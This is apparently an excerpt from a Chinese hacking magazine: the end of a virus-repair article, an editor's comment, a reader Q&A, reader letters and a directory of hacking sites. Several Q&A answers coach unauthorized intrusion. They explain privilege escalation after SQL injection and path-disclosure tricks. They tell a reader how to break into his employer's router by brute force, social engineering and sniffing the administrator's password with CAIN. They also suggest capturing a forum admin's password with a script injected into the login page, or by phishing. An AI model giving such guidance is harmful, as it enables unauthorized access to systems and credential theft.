更幸运的是，我电脑中的这个病毒变种只是感染部分 Exe 文件，如果感染了全部的 PE 文件，那么这种修复方法也就没有什么实用价值了。但是通过这种方法，我们同样可以挽救回一些关键文件。需要说明下，文章附带的样本请谨慎运行。好了，文章到此结束，有什么问题欢迎大家来《黑客手册》论坛和我交流。


# 编辑点评

这篇文章中虽然被感染的目标被修复，但是在作者的清除方案里却没有提及到临时目录下的 tem81.exe 文件，因为这个才是整个病毒的重点。作者有注意到被感染的程序体积增加了 23K，但却没有注意到 tem81.exe 的体积刚好就是 23K，不知是作者疏忽还是什么？而且对于整个病毒来说，tem81.exe 才是重点，简单的清除只是表面现象。比如：tem81.exe 会修改 hosts 文件，会启动系统服务，而且这个 tem81.exe 还有可能带下载功能。另外，tem81.exe 还在系统目录创建了一个驱动文件，如果不对 tem81.exe 分析清除的话，始终还是留下了一个隐患在这里，所以有兴趣的读者可以继续分析一下 tem81.exe 是如何感染正常文件的。


**Q：** 我用 SQL 注入了网站，得到了管理员权限，怎样才能渗透服务器呢？请指点迷津。

**A：** 用 SQL 注入获得管理员权限，仅仅只是入侵的前奏。当然，这些取决于你的注射点的应用环境。如果是 ACCESS 注入点，即使你进入后台获取了 webshell，也需要进行提权。这些方法已经是陈词滥调了，作为初学者，建议你百度一下。如果你的入侵目标是虚拟主机，那么建议你可以放弃提权这条道了。

如果是 MSSQL 或者 MYSQL 的注入点，那么利用起来就更灵活。如果你的基本功扎实，具备一定的入侵功底，那么进行渗透服务器的操作就相对简单。

这里我粗枝大叶地讲解一下，MSSQL 的 SA 权限可以利用相关扩展结合命令进行渗透提权，DB_OWNER 权限则尝试备份到启动目录等办法。MYSQL 可以利用 load_file 获取一些基本信息，如果得到 root 密码则可以利用 UDF 扩展调用函数进行提权。总之方法是结合实际出发的，取决于个人的能力、实战经验及灵感。

本帖地址：http://www.nohack.cn/bbs/thread-109660--1-1.html

**Q：** 为什么 PHP 环境下写的工具一般都是命令行工具啊？怎么利用？望赐教。

**A：** 这个足以说明 PHP 的强大，不仅可以作为脚本环境，还可以编写程序。PHP 格式的 exp 需要安装 PHP 环境，然后在命令行下进行调用。PHP 的安装包可以从网上下载安装，然后在命令行下定位到 PHP 程序所在的目录进行调用。这里我推荐两种一劳永逸的好办法：

- 1. 复制 PHP 目录下的 php5ts.dll 以及 php.exe 到某个目录，并建立一个 cmd.bat，内容为 cmd，这个程序就是调用 cmd 程序。接着把你的 exp 或者相关程序放到这个目录下面，打开 cmd.bat 执行 `php exp.php example`，以后就很方便调用了。
- 2. 设置环境变量，可以把 PHP 目录以及 mysql 等重要的目录，在 Windows 下设置为环境变量，以后直接在 cmd 下就能调用你所处环境变量下的程序了。这对于所有命令行下的工具均是效果显著，事半功倍。

以上两种方法均可以很方便地达到你的目的并快速调用，请以个人喜好而为之。

本帖地址：http://www.nohack.cn/bbs/thread-109594--1-1.html

**Q：** 今日很不幸地又一次中了 U 盘病毒，通过修改文件夹选项，原先的文件夹依然不能看到。但是换了电脑，用 U 盘安全打开工具打开后是可以看到的，于是疑惑隐藏文件的方法到底有多少种。

**A：** 如果是 U 盘病毒就不要想所谓的 rootkit 技术了，因为这些是没有多大意义的。病毒会给自身以及隐藏的文件建立隐藏和系统属性，并监视相关注册表键值防止你修改。你可以使用 attrib 命令写个批处理去掉系统隐藏属性，这样你在本地就能看到了。至于其他电脑，因为没有感染病毒，从而可以查看你的目录。作为 U 盘病毒的技术手段来说，仅仅是添加系统隐藏属性，并通过进程或者 dll 监视注册表进行操作，这种病毒可以使用杀软或者 U 盘病毒专杀工具解决以及修复。

本帖地址：http://www.nohack.cn/bbs/thread-109573--1-2.html

**Q：** 我在公司由于我没有路由权限，所以从来上不了多少，也不让访问路由，路由的 IP 是 10.0.0.1，谁教教我怎么操作？

**A：** 可以先试试默认密码或弱密码，如果失败就采用 WebCrack 等暴力破解工具，这取决于你的字典强度以及一定的运气成分。根据你的情况，推荐采用社会工程学，可以叫你们的网络管理员登录路由终端，进行例如域名过滤或者重启路由器等操作（至于如何让他执行，就看你的社工欺骗功夫了）。

在管理员登录终端之前，确定他使用的机器的 IP，用 CAIN 嗅探 HTTP 协议，注意表单的项目一定要添加 CAIN 的默认字段里，这样就可以嗅探到他输入的路由终端授权密码。当然，也可以采取 WMIC 或者远程溢出搞定管理员的机器并种植木马，这就取决于你的能力手段了。

如果你最终还是没办法获得路由器的权限，那么也只有采取外网肉鸡转发，或者相关内网主机的工具来实现了。总之方法有很多，关键是如何去利用。

本帖地址：http://www.nohack.cn/bbs/thread-104856--1-6.html

**Q：** 拥有 db_owner 权限，但是没办法列目录，或者只能查看 C 盘却找不到 web 路径。这样情况下，该怎样来做呢？

**A：** db_owner 的权限已经很高了，能做的事情有很多，比如我们可以通过注入点读取注册表来获得 web 路径。针对 Win2000 系统，使用 xp_regread 扩展存储读取 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots` 键值就可以直接获得 WEB 路径。

如果是 2003 的服务器，那么这种方法是无效的，我们需要采取网站报错的方法爆出网站绝对路径。如果网站是 ASP 环境的，可以试试古老的暴库方法（%5c）；如果 ASP 不能爆出路径，我们可以通过搜索引擎查找站点是否存在 PHP 脚本环境。

PHP 暴库的方法有很多，比如在提交字段后面加 [] 的方法（`test.php?id[]=88`，适用于使用 preg_match() 函数或者其他类型的站点），或者在参数值后面加单引号等一些办法。当然，还有一些其他的方法爆出路径，比如 Apache 某些版本的默认文件没有删除的话，也会得到网站绝对路径，大家可以根据实际情况来综合分析。

其实如果绝对路径都不对的话，也可以尝试获取网站管理员密码，然后通过后台或者社工的方法达到入侵站点的目的。

本帖地址：http://www.nohack.cn/bbs/thread-108727--1-5.html

**Q：** 我的网站 http://www.xxxzzz.cn 前些时候被黑，现在改成了 PHP 还是常被挂马，请帮解决！

**A：** 网址后添加 admin 进入后台可以看到你采用的是 PHPCMS2008，测试了看到了公布的两个漏洞，均没有成功，估计版本比较新，应用了最新的补丁。对方如果在你更换脚本后还能继续挂马，则有几种可能：

如果你仍旧采用原来的账号密码，那么对方进入后台后可以采取相应方法获得 webshell，从而继续控制你的网站。另外，更换脚本系统后应该删除之前所有的文件！很多管理员仅仅删除脚本扩展的文件，而保留了图片作为后续素材，殊不知 x.asp、.gif 这种格式也能作为后门。

最大的可能性就是你的服务器被入侵了，主机开启了 3389 终端并且存在有漏洞的整站系统，这样对于能力较强的攻击者可以获取服务器权限，只要采取 IIS 挂马等办法则会感染到整个服务器的网站。

当然了，我们也不排除 ARP 挂马等方法，只是现在的虚拟主机应用了防火墙以及做了相关的绑定措施，应该是不存在的。

建议你在确定网站没有后门后，与服务器主机管理员进行联系沟通，有必要可以进行一些安全检测，防止无德黑客的恶意破坏。

本站地址：http://www.nohack.cn/bbs/thread-108412-1-6.html

> **Q：** 我想知道如何取得 DISCUZ 7.1 的 admin 账号密码，因为需要在另一个地方用，还望高手指点迷津。

**A：** DISCUZ 7.1 是一个安全系数很高的论坛系统，其密码采用 md5(salt+md5(password)) 方式，即便是你用旁注或者其他手段获取了 webshell，想还原出原始密码，也是相当困难的。如果你能获取 webshell，不妨尝试用 PHP 写一个用来窃取密码的脚本，包含到登录文件里进行记录就可以了。当然，你也可以采取社会工程学结合管理员的信息，然后对密码进行测试破解或者采用“钓鱼”等方式达到最终目的。

本站地址：http://www.nohack.cn/bbs/thread-107980-1-7.html

> **Q：** 我想在右键菜单里加一个选项，点击后可以弹出一个对话框，里面会显示本机的 IP 地址，该怎么做啊？

**A：** 花了一会儿功夫写了一段 VBS 代码，挺简单的；可以在这个基础上自行修改。

```vb
Dim result, strstart, strend, retsr

result = BytesToBstr(GetData("http://www.ip138.com/ip2city.asp", ""), "gb2312")
strstart = InStr(result, "[")
strend = InStr(result, "]")
retsr = Mid(result, strstart + 1, (strend - strstart) - 1)

MsgBox "[+]你的当前 IP 地址如下[+]" & vbCrLf & vbCrLf & "[+]---[" & retsr & "]---[+]"

Function GetData(PostUrl, PostStr)
    Dim Http
    Set Http = CreateObject("Microsoft.XMLHTTP")
    With Http
        .Open "GET", PostUrl, False
        .SetRequestHeader "Content-Length", Len(PostStr)
        .SetRequestHeader "If-None-Match", "b8d89784a40ca1:aae"
        .SetRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)"
        .SetRequestHeader "www.ip138.com", "www.ip138.com"
        .SetRequestHeader "Connection", "Keep-Alive"
        .SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
        .Send PostStr
        GetData = .ResponseBody
    End With
    Set Http = Nothing
End Function

Function BytesToBstr(Body, Cset)
    Dim objstream
    Set objstream = CreateObject("adodb.stream")
    objstream.Type = 1
    objstream.Mode = 3
    objstream.Open
    objstream.Write Body
    objstream.Position = 0
    objstream.Type = 2
    objstream.Charset = Cset
    BytesToBstr = objstream.ReadText
    objstream.Close
    Set objstream = Nothing
End Function

'---- 这部分用于提交数据 ----
wscript.quit
```

至于注册到右键菜单，可以修改注册表或者借助相关软件实现。总之这个 VBS 运行后即可获取当前外网 IP，其他的当作课后作业吧。

本站地址：http://www.nohack.cn/bbs/thread-109523-1-2.html


雪啊，你下！风啊，别吹！北方的天气就是这样啊，看着太阳大大地，晒得光光地，但温度就是那么几度，风一吹就脸痛！抹大宝都根本不起作用，对不起咱这张脸呀！跟月球表面似的，坑坑洼洼，平躺着装水都能接一杯，哈哈……马上跨年了，驿站准备好了吗？

- 姓名昵称：客黑
- 所在城市：新疆乌鲁木齐
- 目前职业：学生
- 建议意见：杂志还不错，也买了几本书了，感觉学习了不少东西，希望能够结识更多的朋友，了解更多的技术。另外，能不能把光盘的那个套子别贴在书上啊，我每次扯下来都很小心，但还是会对书造成一点破坏。我希望能够保留书，一直保留，以后留给别人，呵呵。

本刊主编：许多读者也反映过这个问题，但由于光盘和塑料套都很滑，为了防止丢失，只好贴在书页上了。不过那个套子是透明的，你们可以不扯下，透过套子依然可以看到内容呀，呵呵。快到年末了，在这里也感谢众多读者对我们的支持、理解和帮助，我们一起再次继续前进吧！

- 姓名昵称：李金财
- 所在城市：广西桂林
- 目前职业：暴发户
- 建议意见：今年看到北方大雪，很担心杂志能够及时送到，还好，只比上期迟了 2 天。感觉这几期杂志的变化很大，比如 07、08 的四周年纪念和 09 的超厚版，确实是看过了瘾。而且我还喜欢看广告，发现又有新书要出了，期待很久的 VB 编程也有了，这回放假可要好好安排时间来学习了。

乱搞编程的菜鸟：精通编程系列已经出到 3 了，是很普及的 VB 语言，这回众多读者可以好好利用假期补一补了。只要是读者需要的，就是我们奋斗的！实用才是硬道理嘛！另外，《无线黑客傻瓜书》也是值得收藏研究的精品读物，大家也要快点下手哦！

- 姓名昵称：匡组留
- 所在城市：乌龙山
- 目前职业：下手
- 建议意见：最近买了本《无线黑客》，看着内容很新鲜，于是读了读，感觉很神秘，不再需要线路就可以进行入侵了。这使得我自己也害怕起来。毕竟现在无线设备也发展很快，价格已经很普及，我买了一台上网本，而且家里也有无线路由，但对这方面还是才入门，不知道会不会有人乱搞我家里的网络，现在都买了根网线用有线连接了。

众编辑疑：看来这位读者还得慢慢研究《无线黑客》啊，呵呵，里面不仅讲了入侵，还有如何防御及进行安全设置等方法，要仔细地按照书中所讲的进行实践操作哦。现在电脑设备的价格下降也使得无线普及，而且网络资费也有多种选择，但一些人还是不满足，总想免费“蹭”网，看完本书，再想想“蹭网”是否值得吧。


# 风云墙技术论坛

- 1. 风云墙技术论坛

网站：http://forum.wwind.net

简介：风云墙技术论坛始创于2006年5月28日，目前已发展成为以电脑技术为主打，以论坛、ID为特色，以休闲娱乐为辅助的综合性论坛。拥有一批技术能手及原创文学作者。管理风格以制度化和人性化相结合，在稳步发展的同时，力求创新。

- 2. Neeao Security Blog

网站：www.neeao.com  
www.hackye.com

- 3. 黑客动画吧

网站：http://www.hack58.com

简介：黑客动画吧是国内专业的黑客安全类技术讨论与资源交流网站之一，论坛内聚集了众多从事黑客安全研究学习的高水平人才，并拥有国内最齐全的网络安全相关资源。本站开设的初衷是为了提供给大家一个学习交流的地方。

- 4. 鬼仔's Blog

网站：www.huaidan.org

简介：一个关注网络安全的站点，建立于05年4月，以网络安全方面的资料、工具、新闻、最新的漏洞信息为关注，订阅人数已达2000，RSS全文输出。

- 5. 中国X黑客小组

网站：www.cnxhacker.com

简介：中国X黑客小组，对应的英文名字是 Xhacker Group of China（缩写XGC），是一个非商业性的技术自由体，主要由计算机爱好者组成，进行有计划、有组织的计算机技术方面的研究、交流、整理和推广工作。同时，X黑客小组是一个民间的爱国团体，我们不参与政治。我们的言论和行动都建立在爱国和维护中国尊严的基础上，我们的声音和行动是中华民族气节的体现。

- 6. 蚂蚁巴士论坛

网站：http://bbs.ant84.com

简介：蚂蚁巴士论坛是全国最大、最专业的破解软件下载论坛，是一家为用户提供国内外最新最全的破解软件下载专业培训的站点。专业的技术团队，完整的服务体系，高效的管理模式，为用户提供高品质的服务。并同时与多家网站、报社、杂志社建立了合作关系，在业界拥有良好的知名度和信誉度。

- 7. 红狼安全小组

网站：http://www.wolfexp.net  
sebug.net

## 漏洞信息库

简介：专业的漏洞信息数据库，致力于信息安全漏洞的研究及收集整理。内容以管理与收集国内外网络安全缺陷以及漏洞资料为主。

- 8. 狂人影子论坛

网站：http://bbs.krshadow.com/

简介：国内永久性黑客安全技术交流平台，一切VIP收费内容在狂人影子论坛里就成为免费使用，永不收费，论坛每个月都有大小活动，奖品设置永远也不会低于100块人民币，更多的Q币等你来拿。

- 9. 黑客风云

网站：http://www.05112.com/

简介：传统VIP教学弊端：学费高！学期长！没讲师随时辅导！怕学不会！也许你会说：“我在网上找师傅”，但有多少人因此而上当？交了钱谁能保证师傅教学质量？怎么办？

黑客风云推出一对一教学，让网友不再为学技术而上当受骗，并向大家承诺：给每位学员配备一位讲师并进行全程辅导，包学包会，学会为止！如果对讲师不满意，可以随时换讲师或全额退款！

- 10. 黑客天下

网站：http://www.hack4.com/

简介：黑客天下是一家从事黑客安全、传统黑客技术、普及黑客知识、宣传黑客文化的综合性黑客门户！建立三年，于2008年4月成立安全公司，时刻为祖国的网络事业努力奋斗着！

- 11. 黑马王子学习基地

网站：http://bbs.hmwz.net

- 12. 红黑联盟

网站：www.7747.net

简介：红色黑客联盟作为最早的综合网络安全门户，七年来我们一直致力于普及安全意识，推动黑客平民化。网站内容丰富，更新迅速，我们提供了从基础到最前沿先进顶端技术的全方位优质服务，努力打造最好的技术平台。

# 全国代理商电话

| 地区 | 电话 |
|---|---|
| 北京 | 65934375 |
| 北京 | 65073229 |
| 北京 | 65850057 |
| 南宁 | 2615676 |
| 柳州 | 3111816 |
| 南通 | 85501751 |
| 本溪 | 3882485 |
| 宁波 | 87660206 |
| 青岛 | 83848881 |
| 沈阳 | 23842760 |
| 太原 | 7041968 |
| 唐山 | 2810045 |
| 天津 | 27697711 |
| 邢台 | 3090234 |
| 宜昌 | 6443827 |
| 威海 | 5202057 |
| 淄博 | 2150683 |
| 上海 | 63780159 |
| 郑州 | 67647276 |
| 烟台 | 6260748 |
| 徐州 | 83777678 |
| 长沙 | 6562796 |
| 任丘 | 2254900 |
| 福州 | 13960789097 |
| 秦皇岛 | 3691263 |
| 张家口 | 2068200 |
| 哈尔滨 | 88342321 |
| 石家庄 | 83029157 |
| 乌鲁木齐 | 5589830 |
| 齐齐哈尔 | 2683430 |
| 常德、衡阳 | 7389148 |
| 昆明 | 4168505、4125008 |
| 南昌 | 8522285、8591995 |
| 芜湖 | 3119006、3121316 |
| 蚌埠 | 3028542、3028028 |
| 阜阳 | 2271183、2233944 |
| 贵阳 | 5984695、6819938 |
| 合肥 | 2611465、7139358 |
| 吉林 | 6959591、6959592 |
| 银川 | 6024121、6024322 |
| 铁岭 | 4840742、2652412 |
| 邯郸 | 3090822、7672216 |
| 包头 | 4138751、2516902 |
| 苏州 | 65188163、65165868 |
| 深圳 | 82264081、25925914 |
| 大连 | 84600173、83898946 |
| 重庆 | 67051607、67051833 |
| 佳木斯 | 8220728、8061162 |
| 连云港 | 82887021、85503168 |
| 营口 | 3551160 |
| 海口 | 66217820 |
| 鞍山 | 2218341 |
| 周口 | 6083289 |
| 保定 | 2038408 |
| 朝阳 | 2622618 |
| 沧州 | 3015380 |
| 六安 | 6320827 |
| 长春 | 82700526 |
| 淮安 | 83942865 |
| 常州 | 88105882 |
| 成都 | 89935872 |
| 大同 | 2021603 |
| 无锡 | 82722773 |
| 桂林 | 2359586 |
| 厦门 | 5095042 |
| 武汉 | 85493562 |
| 武汉 | 87372806 |
| 杭州 | 88256366 |
| 泰安 | 8224897 |
| 衡水 | 7902322 |
| 泰安 | 8337513 |
| 济南 | 82903395 |
| 东营 | 8258792 |
| 淮南 | 6314707 |
| 莱西 | 86547301 |
| 胶州 | 87219723 |
| 南京 | 83328998 |
| 兰州 | 8514919 |
| 温州 | 86056785 |
| 绵阳 | 2333291 |
| 阜新 | 3315222 |
| 西安 | 82100804 |
| 广州 | 34296413 |